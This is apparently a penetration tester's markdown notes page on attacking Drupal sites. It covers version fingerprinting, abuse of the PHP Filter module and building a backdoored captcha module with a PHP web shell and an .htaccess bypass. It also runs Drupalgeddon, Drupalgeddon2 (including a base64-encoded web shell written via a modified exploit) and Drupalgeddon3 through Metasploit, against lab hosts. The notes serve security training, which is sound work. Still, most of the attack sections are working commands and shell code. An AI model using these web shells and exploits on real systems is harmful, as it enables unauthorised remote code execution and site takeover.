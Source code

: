 ```yaml
---
title: Pentesting Drupal
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - CMS
  - drupal
---
```

# Pentesting Drupal

Drupal is written in PHP and supports using MySQL or PostgreSQL for the backend.

## Important Drupal files and directories

A Drupal website can be identified in several ways, including by the header or footer message Powered by Drupal, the standard Drupal logo, the presence of a CHANGELOG.txt file or README.txt file, via the page source, or clues in the robots.txt file such as references to /node.

```
curl -s http://$target | grep Drupal
```

Another way to identify Drupal CMS is through nodes. Drupal indexes its content using nodes. A node can hold anything such as a blog post, poll, article, etc. The page URIs are usually of the form `/node/<nodeid>`.


## Version

It does not work on all versions:

```shell-session
curl -s http://$target/CHANGELOG.txt | grep -m2 ""
```

```
droopescan scan drupal --url http://$target
```

Make sure to  heck the CVE associated at: https://www.cvedetails.com/vulnerability-list/vendor_id-1367/product_id-2387/Drupal-Drupal.html

## Users

Drupal supports three types of users by default:

- Administrator: This user has complete control over the Drupal website.
- Authenticated User: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
- Anonymous: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.


## Leveraging the PHP Filter Module

Unlike some CMS', obtaining a shell on a Drupal host via the admin console is not as easy as just editing a PHP file found within a theme or uploading a malicious PHP script.

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."  From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

From version 8 onwards, the PHP Filter module is not installed by default. To leverage this functionality, we would have to install the module ourselves.   Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first. We'd start by downloading the most recent version of the module from the Drupal website.

```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Once downloaded go to `Administration` > `Reports` > `Available updates`.

From here, click on Browse, select the file from the directory we downloaded it to, and then click Install.

## Uploading a Backdoored Module

Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module.

**1.** Download the archive and extract its contents.

```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

**2.** Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```


**3.** Next, we need to create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

**4.** The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```shell-session
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

**5.** Assuming we have administrative access to the website, click on Manage and then Extend on the sidebar. Next, click on the + Install new module button, and we will be taken to the install page, such as http://drupal.inlanefreight.local/admin/modules/install Browse to the backdoored Captcha archive and click Install.


## Drupalgeddon

[CVE-2014-3704](https://nvd.nist.gov/vuln/detail/CVE-2014-3704) known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.

Download from: https://www.exploit-db.com/exploits/34992

```
# Add an admin user named hacker with password pwnd 
python2.7 drupalgeddon.py -t http://target -u hacker -p pwnd
```

Once logged in as admin, try to obtain a shell. 

## Drupalgeddon2

[CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.

Download from: https://www.exploit-db.com/exploits/44448

```shell-session
python3 drupalgeddon2.py 
```

We can check quickly with `cURL` and see that the `hello.txt` file was indeed uploaded.

```shell-session
curl -s http://drupal-dev.inlanefreight.local/hello.txt
```

Now let's modify the script to gain remote code execution by uploading a malicious PHP file.

```bash
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
```

Output:

```shell-session
PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
```

Next, let's replace the `echo` command in the exploit script with a command to write out our malicious PHP script.

```shell-session
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee hello.php
```

Now, run the script:

```shell-session
python3 drupalgeddon2.py 
```

And to get the reverse shell running, browse to:

```
http://drupal-dev.inlanefreight.local/hello.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

## Drupalgeddon3

[CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.


It requires a user to have the ability to delete a node. We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie. Once we have the session cookie, we can set up the exploit module as follows.

```
msfconsole -q
use multi/http/drupal_drupageddon3
set rhosts 10.129.42.195
set VHOST drupal-acc.inlanefreight.local
set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
set DRUPAL_NODE 1
set LHOST 10.10.14.15
show options
run 
```
